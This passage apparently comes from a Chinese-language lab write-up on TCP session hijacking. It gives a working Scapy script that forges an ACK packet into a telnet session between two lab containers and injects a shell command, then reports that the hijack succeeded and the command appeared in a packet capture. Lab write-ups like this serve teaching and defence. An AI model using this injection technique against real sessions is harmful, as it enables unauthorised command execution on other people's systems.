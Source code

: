 脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING SESSION HIJACKING PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40524, dport=23, flags="A", seq=703022962, ack=666629549)
data = "\n touch /tmp/mytest.txt\n"
pkt = ip/tcp/data
send(pkt, verbose=0)
```

劫持成功

![image-20220410223212971](readme.assets/image-20220410223212971.png)

抓包抓到命令
